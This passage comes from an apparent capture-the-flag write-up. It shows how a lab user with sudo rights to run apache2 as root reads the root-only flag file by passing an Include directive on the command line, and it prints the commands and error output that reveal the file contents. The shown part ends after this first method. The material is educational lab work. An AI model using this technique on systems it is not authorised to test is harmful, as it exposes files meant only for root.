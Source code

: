 Checking the `sudo` privileges for the `dolivaw` user, we can see that we are able to run `/usr/sbin/apache2` as the `root` user, which allows us to control and configure the `apache2` server.

```console
dolivaw@ubuntu-jammy:~$ sudo -l
Matching Defaults entries for dolivaw on ubuntu-jammy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dolivaw may run the following commands on ubuntu-jammy:
    (ALL) NOPASSWD: /usr/sbin/apache2
```

Using `apache2`, there are many ways we can utilize it to read the root flag or get a shell as the `root` user. I will share a couple of them along with the intended way.

### Unintended #1: File Read with Include

Let's begin with the easiest one, which is the method mentioned [here](https://gtfobins.github.io/gtfobins/apache2ctl/) that allows us to simply read the root flag.

`apache2` allows us to specify directives either with a config file or simply using the command line arguments. We can utilize the `Include` directive, which is used to include other configuration files and here's the thing: if we were to include a file that does not contain valid directives, `apache2` simply prints an error stating this along with the contents of the configuration file.

We can utilize this behavior to include the root flag, which obviously won't have valid directives, and thus `apache2` will print its contents as such:

```console
dolivaw@ubuntu-jammy:~$ sudo /usr/sbin/apache2 -C 'Include /root/root.txt' -k stop
[Mon Mar 17 00:06:00.171999 2025] [core:warn] [pid 1813] AH00111: Config variable ${APACHE_RUN_DIR} is not defined
apache2: Syntax error on line 80 of /etc/apache2/apache2.conf: DefaultRuntimeDir must be a valid directory, absolute or relative to ServerRoot
```

As we can see trying this, before we are able to include our file, we get an error due to `APACHE_RUN_DIR` not being defined. But this is not a problem, as we can simply define it with another directive, and with this, we can see the contents of the root flag being printed:

```console
dolivaw@ubuntu-jammy:~$ sudo /usr/sbin/apache2 -C 'Define APACHE_RUN_DIR /tmp' -C 'Include /root/root.txt' -k stop
[Mon Mar 17 00:07:27.943748 2025] [core:warn] [pid 1816] AH00111: Config variable ${APACHE_PID_FILE} is not defined
[Mon Mar 17 00:07:27.943839 2025] [core:warn] [pid 1816] AH00111: Config variable ${APACHE_RUN_USER} is not defined
[Mon Mar 17 00:07:27.943847 2025] [core:warn] [pid 1816] AH00111: Config variable ${APACHE_RUN_GROUP} is not defined
[Mon Mar 17 00:07:27.943862 2025] [core:warn] [pid 1816] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Mon Mar 17 00:07:27.951625 2025] [core:warn] [pid 1816:tid 140193100588928] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Mon Mar 17 00:07:27.952035 2025] [core:warn] [pid 1816:tid 140193100588928] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Mon Mar 17 00:07:27.952070 2025] [core:warn] [pid 1816:tid 140193100588928] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
AH00526: Syntax error on line 1 of /root/root.txt:
Invalid command 'THM{[REDACTED]}', perhaps misspelled or defined by a module not included in the server configuration
```
{: .wrap }

